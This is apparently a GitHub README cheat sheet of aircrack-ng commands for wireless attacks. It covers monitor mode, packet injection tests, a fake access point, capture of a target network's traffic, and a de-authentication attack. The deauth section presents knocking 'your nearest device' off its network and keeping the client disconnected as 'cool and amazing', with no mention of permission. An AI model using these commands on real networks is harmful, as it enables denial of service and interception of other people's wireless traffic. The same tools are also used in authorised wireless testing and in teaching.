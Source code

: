 # <p style="text-align:center">Ethical Hacking Cheat Sheet </p>
<details>
    <summary> Basic Information</summary>
These commands are works only on linux based OS system
An external Network Adapter is required, Your Network Adapter must support
{ Monitor Mode, packet injection } mode Here my network interface name is { wlan1 }, use these commands 

```sh
iwconfig 
```
 or 
 ```
 ifconfig
 ```
check your network interface name, your network interface name may be diffrent use accordingly.

First you need to switch root user

```
sudo su
```
</details>

# Table of Content
- [Network Manager Commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-manager-commands)
- [Network Adapter testing commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-adapter-testing-commands)
- [Packet Sniffing](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#packet-sniffing)
- [DE-Authentication Attack](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#de-authentication-attack)

---
## Network Manager Commands
### Kill Network Manager
```
airmon-ng check kill
```
### Enable Network Manager
```
service NetworkManager start
```
### Restart Network Manager
```
systemctl restart NetworkManager
```
### Check Status of Network Manager
```
systemctl status NetworkManager
```
---
## Network Adapter Testing Commands
### Enable Monitor Mode
```
airmon-ng start wlan1
```
### Disable Monitor Mode
```
airmon-ng stop wlan1
```
### Packet Injection test
```
aireplay-ng --test wlan1
```
### Creating Access Point Test
you can put any fake MAC Address like this `00:01:02:03:04:05`
```
airbase-ng -a 00:01:02:03:04:05 --essid "test_01" -c 11 wlan1
```
---
## Packet Sniffing
### Sniff Network around `2.4 GHz`
```
airodump-ng wlan1
```
### Sniff Network Both `2.4 GHz and 5 GHz`
```
airodump-ng --band a wlan1
```
### Capture data both `2.4 GHz and 5 GHz`
```
airodump-ng --band abg wlan1
```
### Capture data in a file `test`
```
airodump-ng --bssid @1 --channel @2 --write test wlan1
```
@1 → `BSSID` of target

@2 → Channel no. of target

### Open wireshark application to read captured data, captured in `fileName.cap`, 
```
wireshark
```
---
## DE-Authentication Attack 
<details>
    <summary>why de-authentication attack ?</summary>
it`s cool and amazing attack on your nearest device & router, it uses { aireplay } package and takes MAC address of Router & Client and keep sending deauthentication packet to Router & Client as well, you can send really large no. of packets and keep client disconnect as you want.
</details>

```
aireplay-ng --deauth @1 -a @2 -c @3 wlan1
```
@1 → no. of packets you want to send 

@2 → BSSID of router

@3 → MAC Address of the Client
<details>
    <summary>know more abot it</summary>
we're doing --deauth to tell
aireplay-ng that I want to run a de-authentication attack,
I'm givin' it a really large number of packets, so that it
keeps sending the de-authentication packets
to both the router and the client, and keep the client
disconnected, I'm using -a to specify the MAC address of the
target router, or the target access point, then I'm using -c
to specify the MAC address of the client.
</details>
&nbsp;

if it`s fails then, target router on specfic channel
```
airodump-ng --bssid @1 --channel @2 wlan1
```
@1 → BSSID of target

@2 → Channel number




# ===}> [Keep Supporting me on YouTube](https://www.youtube.com/@ohm_vishwa)
